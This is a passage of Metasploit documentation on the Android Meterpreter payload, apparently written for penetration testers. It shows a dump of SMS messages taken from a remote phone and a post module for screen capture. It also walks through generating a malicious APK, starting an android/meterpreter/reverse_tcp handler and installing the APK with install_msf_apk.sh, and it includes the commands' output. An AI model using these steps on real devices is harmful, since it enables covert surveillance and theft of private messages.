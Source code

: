 ...

$ cat sms_dump_20160308163212.txt

=====================
[+] SMS messages dump
=====================

Date: 2016-03-08 15:30:12 -0600
OS: Android 5.1.1 - Linux 3.10.61-6309174 (aarch64)
Remote IP: 192.168.1.207
Remote Port: 59130

#1
Type	: Incoming
Date	: 2016-03-08 15:29:32
Address	: **********
Status	: NOT_RECEIVED
Message	: Hello world

...

```

**run**

The ```run``` command allows you to run a post module against the remote machine at the Meterpreter
prompt. For example:

```
meterpreter > run post/android/capture/screen 
```

## Scenarios

**Uploading APK to an Emulator using install_msf_apk.sh**

The Metasploit Framework comes with a script that allows you to automatically upload your APK to
an active emulator and execute it. It requires the [Android SDK platform-tools](http://developer.android.com/sdk/installing/index.html) to run, as well as [Java](https://java.com/en/download/).

To use this, follow these steps:

1. Start the Android Emulator
2. Generate the Android payload as an APK.
3. In msfconsole, start a handler for android/meterpreter/reverse_tcp
4. Run the installer script like this from a terminal:

```
$ tools/exploit/install_msf_apk.sh /tmp/android.apk
```

The the script will do something like this:

```
$ tools/exploit/install_msf_apk.sh /tmp/android.apk 
   adding: META-INF/ANDROIDD.SF
   adding: META-INF/ANDROIDD.RSA
  signing: classes.dex
  signing: AndroidManifest.xml
  signing: resources.arsc
Failure
1562 KB/s (10715 bytes in 0.006s)
	pkg: /data/local/tmp/android.apk
Success
rm failed for -f, Read-only file system
Starting: Intent { act=android.intent.action.MAIN cmp=com.metasploit.stage/.MainActivity }
```
```